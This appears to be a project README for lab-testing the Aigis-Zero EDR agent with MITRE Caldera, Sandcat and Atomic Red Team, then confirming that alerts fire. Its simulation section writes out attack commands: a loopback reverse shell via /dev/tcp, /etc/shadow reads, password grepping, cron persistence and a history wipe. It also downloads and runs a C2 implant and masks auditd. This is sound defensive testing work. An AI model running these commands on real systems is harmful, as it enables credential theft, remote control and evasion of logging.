



# EDR Testing Guide

How to install the Aigis-Zero agent, emulate adversaries with MITRE Caldera and Sandcat, and run Atomic Red Team tests — then confirm detections show up in alerts.

---

## Lab Topology



> [!IMPORTANT]
> Run all emulation on an **isolated VM**. These tests execute real attack techniques.

---

## 1. Start the Control Plane

On the host running the backend:

```bash
cp .env.example .env
# Set FLEET_ENROLLMENT_SECRET, JWT_SECRET, POSTGRES_PASSWORD
nano .env

./scripts/infra.sh up
curl -s http://localhost:8080/healthz | jq .
```

---

## 2. Install the EDR Agent

On the **target endpoint**:

```bash
VERSION=agent-v0.1.0
ARCH=$(uname -m)

curl -fsSL \
  "https://github.com/swar09/aigis-zero/releases/download/${VERSION}/aigis-zero-agent-linux-${ARCH}.tar.gz" \
  -o agent.tar.gz

tar -xzf agent.tar.gz
cd aigis-zero-agent
sudo bash install.sh
```

The installer handles osquery, systemd units, kernel tunables, and ulimits automatically.

### Point the agent at your fleet server

Edit `/etc/aigis-zero/config.toml`:

```toml
[fleet]
host = "192.168.1.10"        # fleet-server IP
port = 50051
enrollment_secret = "your_secret_here"
```

```bash
sudo systemctl restart aigis-zero
journalctl -u aigis-zero -f
# Look for: "node enrolled" + a node_id UUID
```

### Preflight checks

```bash
# eBPF support
grep CONFIG_BPF_SYSCALL=y /boot/config-$(uname -r)

# Mask auditd (conflicts with osquery eBPF consumer)
sudo systemctl mask --now auditd systemd-journald-audit.socket
```

---

## 3. Confirm the Agent is Working

```bash
# Event buffer should be low and draining
sqlite3 /var/lib/aigis-zero/events.db \
  "SELECT count(*) FROM unacked_events;"

# Check enrollment via API
TOKEN=$(curl -s -X POST http://localhost:8080/api/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin"}' | jq -r '.data.token')

curl -s http://localhost:8080/api/v1/nodes \
  -H "Authorization: Bearer $TOKEN" | jq '.data[] | {hostname, agent_status}'
```

---

## 4. Set Up MITRE Caldera

On a **separate host** (not the endpoint):

```bash
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
pip3 install -r requirements.txt
python3 server.py --insecure --build
```

UI: `http://<caldera-host>:8888` — default creds `admin / admin`.

Sandcat is bundled. Confirm it is enabled under **Plugins**.

---

## 5. Deploy Sandcat on the Endpoint

In the Caldera UI: **Agents** > **Deploy an Agent** > Linux / HTTP / Sandcat. Copy and run the generated one-liner on the endpoint:

```bash
curl -s -X POST http://<caldera-host>:8888/file/download \
  -H "platform:linux" -H "file:sandcat.go" \
  -o /tmp/sandcat && \
chmod +x /tmp/sandcat && \
/tmp/sandcat -server http://<caldera-host>:8888 -group attackers -v &
```

The agent appears under **Agents** with status **Alive** within 30 seconds.

---

## 6. Run a Caldera Campaign

### Operation flow



### Recommended adversary profiles

| Profile | Techniques | What it exercises |
|---|---|---|
| Discovery | T1082, T1033, T1016 | System info, user enum, network recon |
| Credential Access | T1003, T1552 | /etc/shadow reads, credential file search |
| Collection | T1005, T1560 | Local data staging and archiving |
| Super Spy | Multi-tactic | Full kill chain |

1. **Operations** > **New Operation**
2. Pick an adversary, set group to `attackers`, planner to `Sequential`
3. Click **Start** and watch the chain execute

---

## 7. Set Up Atomic Red Team

```bash
# Install PowerShell on Linux
sudo apt-get install -y powershell   # Debian/Ubuntu
sudo dnf install -y powershell       # RHEL/Fedora

# Install the framework
pwsh -c "Install-Module -Name invoke-atomicredteam,powershell-yaml -Scope CurrentUser -Force"

# Download atomic definitions
sudo git clone https://github.com/redcanaryco/atomic-red-team.git /opt/atomic-red-team
```

---

## 8. Run Atomics

### Technique coverage mapped to expected detections



### Run tests

```powershell
# In pwsh — run with prereqs, then cleanup
Invoke-AtomicTest T1082         -TestNumbers 1,2,3
Invoke-AtomicTest T1033         -TestNumbers 1,2
Invoke-AtomicTest T1003.008     -TestNumbers 1
Invoke-AtomicTest T1552.001     -TestNumbers 1,2
Invoke-AtomicTest T1059.004     -TestNumbers 1
Invoke-AtomicTest T1053.003     -TestNumbers 1
Invoke-AtomicTest T1136.001     -TestNumbers 1
Invoke-AtomicTest T1070.003     -TestNumbers 1
Invoke-AtomicTest T1222.002     -TestNumbers 1
```

### Bash-native simulations (no PowerShell needed)

```bash
# Discovery
uname -a && id && cat /etc/os-release

# Credential file read (run as root)
sudo cat /etc/shadow | head -5
grep -ri "password" /home/ 2>/dev/null | head -5

# Reverse shell simulation (safe — loopback only)
bash -c 'bash -i >& /dev/tcp/127.0.0.1/9999 0>&1' &

# Cron persistence
(crontab -l 2>/dev/null; echo "* * * * * /tmp/test.sh") | crontab -
crontab -r   # cleanup after

# History wipe
history -c && cat /dev/null > ~/.bash_history
```

---

## 9. Validate Detections

### REST API

```bash
# Alerts
curl -s "http://localhost:8080/api/v1/alerts?status=open" \
  -H "Authorization: Bearer $TOKEN" | \
  jq '.data[] | {severity, mitre_technique_id, mitre_tactic, description, threat_score}'

# Raw logs by event type
curl -s "http://localhost:8080/api/v1/logs?event_type=process" \
  -H "Authorization: Bearer $TOKEN" | \
  jq '.data[] | {event_type, hostname, recorded_at}'
```

### Frontend console

Open `http://localhost:3000`, log in, then check:
- **Alerts** — YARA matches with MITRE technique ID, tactic, and threat score
- **Logs** — Raw telemetry searchable by hostname and event type
- **Endpoints** — Confirm node is `agent_status: healthy`

### Rule engine and Kafka

```bash
# Rule engine matches
docker logs edr-rule-engine -f | grep -E "alert|match|yara"

# Alerts on Kafka topic
docker exec -it edr-kafka \
  kafka-console-consumer \
  --bootstrap-server localhost:29092 \
  --topic aigis.alerts --from-beginning --max-messages 10 | jq .
```

---

## 10. Cleanup

```bash
# Kill Sandcat
pkill sandcat && rm -f /tmp/sandcat

# Cleanup atomics
pwsh -c "Import-Module invoke-atomicredteam; Invoke-AtomicTest T1082 -Cleanup"
# Repeat for each technique tested

# Manual cleanup
crontab -r 2>/dev/null || true
history -c

# Stop EDR stack
./scripts/infra.sh down

# Uninstall agent from endpoint
sudo systemctl stop aigis-zero osqueryd
sudo systemctl disable aigis-zero osqueryd
sudo rm -f /usr/sbin/aigis-zero
sudo rm -rf /etc/aigis-zero /var/lib/aigis-zero /var/log/aigis-zero
sudo rm -f /etc/systemd/system/aigis-zero.service
sudo systemctl daemon-reload
```

---

## Troubleshooting

| Symptom | Fix |
|---|---|
| Agent does not enroll | Check `enrollment_secret` in `config.toml` matches `FLEET_ENROLLMENT_SECRET` in `.env` |
| No events in API | Run `nc -zv <fleet-host> 50051` from the endpoint to confirm connectivity |
| YARA alerts missing | Check `docker logs edr-rule-engine` for consumer lag or rule compilation errors |
| osquery socket not found | Wait 30s; run `journalctl -u osqueryd -f` for the extension manager ready line |
| Sandcat not checking in | Open TCP 8888 from the endpoint to the Caldera host |
| `file_events` table empty | Run `sudo sysctl -w fs.inotify.max_user_watches=524288` |
| High SQLite buffer count | Fleet server is unreachable; check `./scripts/infra.sh status` |
